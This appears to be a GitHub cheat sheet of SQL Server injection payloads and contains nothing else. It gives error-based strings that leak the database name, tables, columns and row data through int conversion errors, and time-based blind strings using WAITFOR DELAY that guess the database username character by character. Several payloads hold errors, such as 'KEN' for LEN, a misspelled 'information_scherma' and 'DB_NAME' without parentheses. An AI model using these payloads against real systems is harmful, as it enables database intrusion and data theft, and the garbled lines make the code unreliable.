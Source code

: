 #### Perform error based SQL Injection

##### Extract database name

```sh
1 or 1=convert(int,(DB_NAME))--
```

##### Extract first database table

```sh
1 or 1=convert(int,(select top 1 name from sysobjects where xtype=char(85)))
```

##### Extract first table column name

```sh
1 or 1=convert(int, (select top 1 column_name from DBNAME.information_scherma.columns where table_name='TABLE-NAME-1'))--
```

##### Extract first field of first row

```sh
1 or 1=convert(int, (select top 1 COLUMN-NAME-1 from TABLE-NAME-1))--
```

#### Extract database user

##### Check for username length

```sh
1; IF (KEN(USER)=1) WAITFOR DELAY '00:00:10'--
1; IF (KEN(USER)=2) WAITFOR DELAY '00:00:10'--
1; IF (KEN(USER)=3) WAITFOR DELAY '00:00:10'--
...
```

##### Check if first character in the username contains 'A' (a=97), 'B', or 'C' and so on

```sh
1; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:5'--
1; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:5'--
1; IF (ASCII(lower(substring((USER),1,1)))=99) WAITFOR DELAY '00:00:5'--
...
```

##### Check if second character in the username contains 'A' (a=97), 'B', or 'C' and so on

```sh
1; IF (ASCII(lower(substring((USER),2,1)))=97) WAITFOR DELAY '00:00:5'--
1; IF (ASCII(lower(substring((USER),2,1)))=98) WAITFOR DELAY '00:00:5'--
1; IF (ASCII(lower(substring((USER),2,1)))=99) WAITFOR DELAY '00:00:5'--
...
```
